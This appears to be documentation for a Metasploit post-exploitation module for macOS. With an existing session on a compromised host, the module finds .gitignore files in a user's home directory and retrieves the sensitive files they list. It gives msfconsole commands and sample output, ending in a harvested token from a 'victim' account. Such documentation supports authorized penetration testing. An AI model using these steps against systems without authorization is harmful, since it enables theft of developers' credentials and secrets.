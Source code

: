 ## Vulnerable Application

This module finds and retrieves gitignore files from the user's home directory,
as well as retrieves the contents of files found in the gitignore.

## Verification Steps

  1. Start msfconsole
  2. Get at least a user shell

  Locate gitignore files:
  3. Do: `use post/osx/gather/gitignore`
  4. Do: `set session #`
  5. Do: `set mode 1`
  5. Do: `run`
  6. You should see a list of all gitignore files with absolute path located recurively from the users'r home directory

  Retrieve gitignore files:
  7. Do: `set mode 2`
  8. Do: `set file /absolute/path/to/.gitignore`
  9. Do `run`
  10. You should see the contents of the gitignore file. If you see anything useful, you can also retrieve these artifacts.

  Retrieve sensitive or interesting artifacts:
  11. Do: `set file /absolute/path/to/sensitive_file`
  12. Do: `run`

## Options

  ### MODE
  Select between enumeration and retrieval mode.
  Mode 1 is enumeration of all gitignore files recursively in the user's home directory.
  Mode 2 is used for retrieving file contents should they be ASCII text.

  ### FILE
  This is the absolute file path to the .gitignore and/or sensitive file you would like to retrieve.

## Scenarios

Gitignore files commonly list items developers don't want leaked and generally contain sensitive information.

### Finding gitignore files

```
msf6 post(osx/gather/gitignore) > set mode 1
msf6 post(osx/gather/gitignore) > set session 1
msf6 post(osx/gather/gitignore) > run

[*] Fetching .gitignore files
[+] /Users/victim/Documents/project/.gitignore
[+] ...
[*] Post module execution completed
```

### Recovering contents of a specific gitignore

```
msf6 post(osx/gather/gitignore) > set file /Users/victim/project/.gitignore
msf6 post(osx/gather/gitignore) > set mode 2
msf6 post(osx/gather/gitignore) > run

[+] /Users/victim/project/.gitignore
[+] .sensitive_file
[*] Post module execution completed
```

### Recovering contents of a sentitive file

```
msf6 post(osx/gather/gitignore) > set file /Users/victim/project/.sensitive_file
msf6 post(osx/gather/gitignore) > run

[+] /Users/victim/project/.sensitive_file
[+] PWNED_APPLICATION_TOKEN=cHduZWQgdXIgZ2l0aHVi
[*] Post module execution completed
```

